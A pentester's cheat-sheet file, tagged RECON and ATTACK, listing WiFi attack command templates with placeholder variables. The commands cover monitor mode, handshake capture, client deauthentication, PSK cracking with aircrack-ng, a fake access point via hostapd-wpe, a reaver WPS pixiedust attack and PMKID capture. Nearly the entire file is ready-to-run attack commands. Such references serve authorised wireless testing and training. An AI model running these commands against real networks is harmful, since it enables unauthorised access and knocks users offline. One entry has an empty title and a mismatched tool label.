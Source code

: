 # wifi

#plateform/linux #target/remote #cat/RECON #cat/ATTACK

## airmon - Kill processes which can cause trouble
```
airmon-ng check kill
```

## airmon - start interface
```
airmon-ng start <wlan_interface>
```

## airmon - stop interface
```
airmon-ng stop <wlanmon_interface>
```

## NetworkManager - Restart NetworkManager
```
systemctl restart NetworkManager
```

## airodump - listen to everything
```
airodump-ng <wlanmon_interface>
```

## airodump - listen to specific SSID
```
airodump-ng --bssid <mac_address> -c <channel> -w <output_file> <wlanmon_interface>
```

## aireplay - deauth client
```
aireplay-ng --deauth <deauth_count> -c <client_mac_address> -a <mac_address> <wlanmon_interface>
```

## aircrack - crack handshake for PSK
```
aircrack-ng -w <dictionary> <input_file>
```

## hostapd-wpe - launch fake AP
```
hostapd-wpe <hostapd_conf>
```

## kismet - monitor WiFi
```
kismet -c <wlan_interface>
```

## nmcli - set back WiFi interface to managed mode
```
nmcli device set <wlan_interface> managed true
```

## reaver - launch WPS pixiedust attack
```
reaver -i <wlanmon_interface> -b <mac_address> -c <channel> -Z
```

## hcxdumptool - WPA2-PSK PMKID Capture
```
hcxdumptool -i <wlanmon_interface> -o capture.pcapng --enable_status=1 -c <channel>
```

## hcxdumptool - 
```
hcxpcaptool -z test.16800 test.pcapng
```

= wlan_interface: wlan0
= wlanmon_interface: wlan0mon
= deauth_count: 5
= hostapd_conf: /etc/hostapd-wpe/hostapd-wpe.conf
